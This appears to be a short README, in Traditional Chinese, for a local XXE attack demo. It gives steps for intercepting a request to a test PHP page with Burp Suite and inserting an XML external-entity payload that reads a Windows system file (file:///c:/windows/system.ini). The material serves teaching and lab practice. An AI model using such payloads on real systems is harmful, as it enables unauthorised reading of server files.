# xxe-demo
這是一個簡單的xxe攻擊demo

#下載

下載資料到xampp的htdocs裡，不然瀏覽器不能開喔

#攻擊
1. 先到瀏覽器開啟xxe_test_demo.php檔
2. 開啟burp suite攔截資料
3. 將下面payload放置攔截資料底下
   <!DOCTYPE a[<!ENTITY xxe SYSTEM "file:///c:/windows/system.ini">]>
   <creds> &xxe; </creds>
4.送出
